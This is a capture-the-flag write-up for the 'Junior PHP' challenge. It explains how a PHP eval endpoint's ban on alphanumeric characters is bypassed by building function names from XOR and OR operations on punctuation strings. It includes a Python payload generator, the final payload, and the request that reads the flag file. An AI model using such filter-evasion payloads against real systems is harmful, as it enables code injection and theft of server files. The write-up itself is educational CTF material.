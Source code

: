 # Junior PHP

## info

we were given an address... and nothing else...

opening it, we get this source code:
```php
 <?php
// flag's in flag.php
if (isset($_GET['x'])) {
    $x = $_GET['x'];

    if (preg_match('/[A-Za-z0-9]/', $x))
        die("no alphanumeric");
    if (preg_match('/\$|=/', $x))
        die("no php");
    if (strlen($x) >= 58)
        die("no");

    // yes
    eval($x);
} else {
    highlight_file(__FILE__);
}
```

it takes a GET parameter `x`, and then if its length is equal or less than 58, and doesn't contain alphanumeric and '$' or '=' characters... then evaluates it...

## solution

it's a tricky challenge... I don't know php that much, but my teammates do... one of them mentioned php allowes xor on strings...

and we had a lot of characters which hadn't been filtered... so... we could make things like `",;>;\\@,;" ^ "^^__:)@^"` which evaluates to `"readfile"`...

also something like `("readfile")("flag.php")` actually calls `readfile` method and passes `"flag.php"` as argument to it...

I wrote this script to easily convert my payload to an xor string:
```python
import sys
import string

s = [
    '"', "'", '!', '(', ')', '*', '+', ',', '-', '.', ':',
    '@', '[', ']', '^', '_', '{', '}', '~', '?', '#', '%',
    ' ', '<', '>', ';', '&', '`', '/', ','
]


def make_table():
    a = {}
    for x in s:
        for y in s:
            res = chr(ord(x) ^ ord(y))
            if res in string.printable:
                a[res] = a.get(res, []) + [(x, y)]

    return a


table = make_table()


def make_payload(s):
    a = ''
    b = ''

    for ch in s:
        x, y = table[ch][-1]

        a += x
        b += y

    return f'"{a}"^"{b}"'


if len(sys.argv) < 2:
    print(f"Usage:\n\t{sys.argv[0]} <payload>...")
    sys.exit(1)

for arg in sys.argv[1:]:
    p = make_payload(arg)
    print(len(p), p.encode())
```

although the '.' was lacking in the generated table... so I couldn't generate xor for `"flag.php"`...

after some time wandering around... I suddenly realized I'm totally missing the fact that if xor works, then bitwise or might also work! and it does!

so I generated xor string for `"readfile"` and `"php"`, then edited that script to use bitwise or instead of xor, and generated or string for `"flag."` part...

it's possible to concatenate '.' in between, but that would make the payload string too large...

final payload: `(",;>;\\@,;"^"^^__:)@^")(("`,``,"|"&`!\'&").("/@/"^"_(_"));`

```python
>>> import requests
>>> len('(",;>;\\@,;"^"^^__:)@^")(("`,``,"|"&`!\'&").("/@/"^"_(_"));')
57
>>> requests.get('http://junior-php.peykar.io', params={'x': '(",;>;\\@,;"^"^^__:)@^")(("`,``,"|"&`!\'&").("/@/"^"_(_"));'}).text
'<?php\n    $flag = "S4CTF{veRy_v3ry_very_e4sy_php}";\n'
>>> 
```
